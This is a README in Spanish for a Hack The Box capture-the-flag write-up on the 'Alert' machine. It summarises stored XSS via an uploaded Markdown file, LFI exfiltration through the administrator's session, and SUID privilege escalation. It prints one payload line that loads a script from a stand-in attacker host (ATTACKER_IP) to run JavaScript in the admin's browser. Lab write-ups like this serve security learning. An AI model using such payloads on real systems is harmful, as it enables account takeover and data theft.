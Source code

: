 # Alert - Hack The Box

![Dificultad](https://img.shields.io/badge/Dificultad-Easy-green)
![SO](https://img.shields.io/badge/SO-Linux-blue)
![Técnicas](https://img.shields.io/badge/Técnicas-XSS%20%7C%20LFI%20%7C%20SUID-red)

---

## Información de la máquina

- **Nombre:** Alert
- **Plataforma:** Hack The Box
- **IP:** 10.10.11.44
- **SO:** Linux (Ubuntu)
- **Dificultad:** Easy
- **Link HTB:** [Alert machine](https://app.hackthebox.com/machines/Alert)

---

## Resumen ejecutivo

La explotación de Alert se desarrolla en **tres fases principales**:

1. **XSS Stored** → Subida de archivo Markdown malicioso con JavaScript embebido para ejecutar código en el navegador del administrador
2. **LFI via XSS** → Exfiltración de archivos sensibles del servidor mediante Local File Inclusion aprovechando la sesión privilegiada del administrador
3. **SUID Abuse** → Escalada de privilegios modificando permisos de `/bin/bash` mediante escritura en directorio con servicio web ejecutándose como root

---

## 📂 Contenido del directorio
```
Alert/
├── README.md                    # Este archivo
├── Alert.md                     # Guía completa paso a paso
├── Script/
│   ├── pwned.js                # Script XSS para exfiltración
└── Imágenes/
    └── web_*.png               # Capturas del proceso de explotación
```

---

## Técnicas y vulnerabilidades explotadas

### 1. **Stored XSS (Cross-Site Scripting)**
- **Vector de ataque:** Upload de archivos Markdown sin sanitización
- **Ubicación:** `visualizer.php` - Sistema de visualización de Markdown
- **Payload inicial:** 
```html
  <script src="http://ATTACKER_IP/pwned.js"></script>
```
- **Impacto:** Ejecución de JavaScript arbitrario en contexto del administrador
